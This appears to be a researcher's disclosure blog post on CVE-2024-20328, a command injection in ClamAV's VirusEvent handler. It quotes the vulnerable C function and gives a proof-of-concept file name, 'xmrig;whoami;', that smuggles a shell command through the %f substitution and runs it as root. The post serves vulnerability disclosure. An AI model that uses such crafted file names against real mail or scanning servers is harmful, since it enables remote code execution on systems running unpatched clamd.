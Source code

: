```yaml
---
layout: single
title:  "CVE-2024-20328 - ClamAV Not So Calm"
date:   2024-02-07 12:00:00 +0530
categories: Vulnerabilites
---
```

# Introduction
On Janurary 2nd, 2024, I found a vulnerability in [ClamAV](https://www.clamav.net/), a popular open-source antivirus engine.

A crafted file name can cause a command injection vulnerability in ClamAV's `VirusEvent` feature. This can be exploited by an attacker to execute arbitrary code on the system running ClamAV - clamd.

Since ClamAV is being used as an antivirus engine to scan files especially in mail servers, this vulnerability can be exploited by an attacker to execute arbitrary code on the system running ClamAV - clamd from remote without user interaction.

## Vulnerability
The `VirusEvent` feature allows Clamd to execute a command when a virus is detected. The command is executed in the following format:
```
VirusEvent /usr/local/bin/send_sms 123456789 "VIRUS ALERT: %v in %f"
```

Where `%v` is the virus name and `%f` is the file name. The file name is not sanitized, allowing an attacker to inject a command into the command string.

`VirusEvent` is a configuration option in the `clamd.conf` file. The command is executed with the privileges of the user running Clamd.

In the file `clamd/clamd_others.c`, the function `virusaction` is the function that handles the `VirusEvent` feature. The function is defined as follows:
```c
void virusaction(const char *filename, const char *virname,
                 const struct optstruct *opts)
{
    pid_t pid;
    const struct optstruct *opt;
    char *buffer_file, *buffer_vir, *buffer_cmd, *path;
    const char *pt;
    size_t i, j, v = 0, f = 0, len;
    char *env[4];

    if (!(opt = optget(opts, "VirusEvent"))->enabled)
        return;

    path   = getenv("PATH");
    env[0] = path ? strdup(path) : NULL;
    j      = env[0] ? 1 : 0;
    /* Allocate env vars.. to be portable env vars should not be freed */
    buffer_file =
        (char *)malloc(strlen(VE_FILENAME) + strlen(filename) + 2);
    if (buffer_file) {
        sprintf(buffer_file, "%s=%s", VE_FILENAME, filename);
        env[j++] = buffer_file;
    }

    buffer_vir =
        (char *)malloc(strlen(VE_VIRUSNAME) + strlen(virname) + 2);
    if (buffer_vir) {
        sprintf(buffer_vir, "%s=%s", VE_VIRUSNAME, virname);
        env[j++] = buffer_vir;
    }
    env[j++] = NULL;

    pt = opt->strarg;
    while ((pt = strstr(pt, "%v"))) {
        pt += 2;
        v++;
    }
    pt = opt->strarg;
    while ((pt = strstr(pt, "%f"))) {
        pt += 2;
        f++;
    }
    len = strlen(opt->strarg);
    buffer_cmd =
        (char *)calloc(len + v * strlen(virname) + f * strlen(filename) + 1, sizeof(char));
    if (!buffer_cmd) {
        if (path)
            xfree(env[0]);

        xfree(buffer_file);
        xfree(buffer_vir);
        return;
    }
    for (i = 0, j = 0; i < len; i++) {
        if (i + 1 < len && opt->strarg[i] == '%' && opt->strarg[i + 1] == 'v') {
            strcat(buffer_cmd, virname);
            j += strlen(virname);
            i++;
        } else if (i + 1 < len && opt->strarg[i] == '%' && opt->strarg[i + 1] == 'f') {
            strcat(buffer_cmd, filename);
            j += strlen(filename);
            i++;
        } else {
            buffer_cmd[j++] = opt->strarg[i];
        }
    }

    pthread_mutex_lock(&virusaction_lock);
    /* We can only call async-signal-safe functions after fork(). */
    pid = vfork();
    if (pid == 0) { /* child */
        _exit(execle("/bin/sh", "sh", "-c", buffer_cmd, NULL, env));
    } else if (pid > 0) { /* parent */
        pthread_mutex_unlock(&virusaction_lock);
        while (waitpid(pid, NULL, 0) == -1 && errno == EINTR) continue;
    } else {
        pthread_mutex_unlock(&virusaction_lock);
        logg(LOGG_ERROR, "VirusEvent: fork failed.\n");
    }
    if (path)
        xfree(env[0]);

    xfree(buffer_cmd);
    xfree(buffer_file);
    xfree(buffer_vir);
}
```
The function first checks if the `VirusEvent` feature is enabled. If it is, it then gets the `PATH` environment variable and stores it in `env[0]`. It then allocates memory for the `VE_FILENAME` and `VE_VIRUSNAME` environment variables, and stores them in `env[1]` and `env[2]` respectively. It then allocates memory for the command string, and replaces `%v` and `%f` with the virus name and file name respectively. It then calls `vfork()` to create a child process, and executes the command string in the child process. The parent process waits for the child process to finish executing the command string.

The vulnerability is in the way `buffer_cmd` being handled without being sanitized. An attacker can inject a command into the command string, and execute arbitrary code on the system running Clamd.

The following line is the vulnerable line:
```c
_exit(execle("/bin/sh", "sh", "-c", buffer_cmd, NULL, env));
```

## Exploit
Assuming clamd.conf is configured as follows:
```
VirusEvent "echo VIRUS DETECTED: %v in the path %f >> /dev/stdout"
```

The following file name will cause the command to be executed:
```bash
# xmrig;whoami; - payload.
echo VIRUS DETECTED: [signature] in the path xmrig;whoami; >> /dev/stdout
```

Output:
```
VIRUS DETECTED: Multios.Coinminer.Miner-6781728-2.UNOFFICIAL in the path
/host/crypto-miner/xmrig
root
```

## Who is affected?
* 0.104 (all patch versions)
* 0.105 (all patch versions)
* 1.0.0 through 1.0.4 (LTS)
* 1.1 (all patch versions)
* 1.2.0 and 1.2.1


## Timeline
- Janurary 2nd, 2024 - Vulnerability found.
- Janurary 2nd, 2024 - Vulnerability reported to ClamAV team.
- Feburary 7th, 2024 - Vulnerability fixed by ClamAV team.

![CVE-2024-20328](https://raw.githubusercontent.com/amitschendel/amitschendel.github.io/master/assets/images/clam.jpeg)